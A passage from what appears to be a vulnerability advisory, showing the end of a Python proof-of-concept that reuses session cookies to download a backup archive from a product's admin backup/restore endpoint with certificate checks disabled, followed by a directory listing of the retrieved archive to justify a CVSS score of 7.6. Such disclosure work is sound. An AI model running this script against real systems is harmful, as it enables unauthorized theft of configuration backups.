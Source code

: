 ```python

    # GET request cookies
    smu_cookies = {
        "JSESSIONID":       jsessionid,
        "JSESSIONIDSSO":    jsessionidsso
        }

    # GET request headers:
    smu_headers = {
        "User-Agent":                   "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0",
        "Accept":                       "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language":              "en-US,en;q=0.5",
        "Accept-Encoding":              "gzip, deflate",
        "Dnt":                          "1",
        "Referer":                      f"https://{hostname}/mgr/app/action/admin.SmuBackupRestoreAction/eventsubmit_doperform/ignored",
        "Upgrade-Insecure-Requests":    "1",
        "Sec-Fetch-Dest":               "document",
        "Sec-Fetch-Mode":               "navigate",
        "Sec-Fetch-Site":               "same-origin",
        "Sec-Fetch-User":               "?1",
        "Te":                           "trailers",
        "Connection":                   "close"
        }

    # Send the request:
    with requests.get(smu_url, headers=smu_headers, cookies=smu_cookies, stream=True, verify=False) as file_download:
        with open(filename, 'wb') as backup_archive:
            # Write the zip file to the CWD:
            backup_archive.write(file_download.content)

    print(f"{filename} has been downloaded to {getcwd()}")

if __name__ == "__main__":
    download_file(args.host, args.id, args.sso)
```

The justification of the CVSS v3.1 score of 7.6 could be further understood by 
examining the contents of `smu_2023-04-12_1543+0200.zip`:

```
$ tree -a
.
├── adc_replic
│   ├── backup.properties
│   ├── mig_policies
│   │   ├── MIGR_TEST_POL
│   │   │   ├── 1
│   │   │   │   ├── config
│   │   │   │   └── lockfile
│   │   │   ├── config
│   │   │   └── lockfile
│   │   └── next_schedule
│   ├── mig_rules
│   │   └── MIGR_TEST
│   ├── pkgHandler.xml
│   ├── replic_policies
│   ├── replic_rules
│   ├── replic_schedules
│   │   └── next_schedule
│   └── replic_scripts
```